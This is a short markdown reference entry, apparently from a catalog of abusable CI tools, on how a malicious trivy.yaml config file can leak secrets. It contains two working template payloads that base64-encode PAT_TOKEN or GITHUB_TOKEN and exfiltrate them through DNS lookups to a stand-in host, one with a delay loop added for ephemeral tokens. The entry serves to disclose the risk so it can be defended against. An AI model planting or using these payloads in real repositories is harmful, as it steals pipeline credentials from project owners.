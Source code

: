 ```yaml
---
title: trivy
tags:
- cli
- config-file
references:
- https://trivy.dev/latest/docs/references/configuration/config-file/
files: [trivy.yaml]
---
```


`trivy` can be configured via `trivy.yaml` file in the current directory.

## Environment variable exfiltration

An attacker can exfiltrate environment variables using the support for go
templates and [sprig](https://masterminds.github.io/sprig/) functions. An
attacker needs a DNS server with logging to retrieve the subdomain as the payload.

```yaml
template: "{{ $test := ( printf \"%s.example.com\" ( b64enc ( env \"PAT_TOKEN\" ) ) ) }} {{ getHostByName $test }}"
format: "template"
```

For ephemeral tokens, waiting can be added through a loop after the exfiltration.

```yaml
template: "{{ $test := ( printf \"%s.example.com\" ( b64enc ( env \"GITHUB_TOKEN\" ) ) ) }} {{ getHostByName $test }} {{ range 6500000 }} {{ end }}"
format: "template"
```
